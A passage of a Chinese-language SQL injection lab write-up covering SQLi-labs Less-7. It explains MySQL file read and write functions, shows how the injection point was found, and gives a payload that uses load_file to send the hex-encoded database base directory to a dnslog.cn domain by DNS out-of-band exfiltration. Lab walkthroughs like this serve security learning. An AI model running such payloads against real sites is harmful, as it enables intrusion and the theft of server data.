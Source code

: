 盲注脚本如上

## Less-7   (‘））单引号双重括号闭合,bool盲注、into_outfie写文件)

**先了解几个函数**

```sql
load_file()函数    是MySQL读取本地文件的函数（读取）
into outfile()函数  是用来导出文件的（写入）
@@basedir函数  查询当前路径
@@datadir函数  查询数据库安装路径
```

1、首先判断注入点

猜到最后，注入点是字符型，单引号加两个小括号，?id=1’)) – -

因为它只有正常显示和不正常显示两种状态，并且也没有MySQL的报错信息。正常来说，这里可以使用盲注，但是它页面上提示的有“Use outfile…”，既然它提示了，那么就说明它开了读写权限。所以这一关就用SQL注入读写文件来试一下

2、判断文件路径

可以利用读文件函数load_file()，结合dnslog.cn网站，实现带外攻击，看到MySQL的安装目录在哪。

先说一下MySQL的load_file()函数。这个函数里面写上文件的路径，就可以实现读取文件内容的操作。不过它只能读取文件，不能读取目录。所以load_file()函数里面一定要写“路径+文件名”，才会有回显。不然就会报错。另外，读本地文件的话，只要写上本地文件的路径就行，绝对路径和相对路径都行。读网络文件的话，要用"\\+域名\+文件名"的写法。前面写上四个\是为了转义，最终的效果是：\域名\文件名

接下来，先在dnslog网站上获取一个随机域名。

![img](assets/1666512206695-8a0462cf-83db-488b-a6a0-021585d477df.png)接下来，构造语句：?id=1’)) and load_file(concat(’\\’,(substr(hex(@@basedir),1,30)),’.r8luxv.dnslog.cn\1.txt’)) – -，并执行。这个语句中间用了hex()函数，把@@basedir加密。为了避免URL中显示不出某些特殊符号，并且了使用substr()字符串截取函数，因为URL的长度是有限制的。虽然执行完之后页面会报错，但是不影响结果，可以看到dnslog网站上已经出现了一串字符
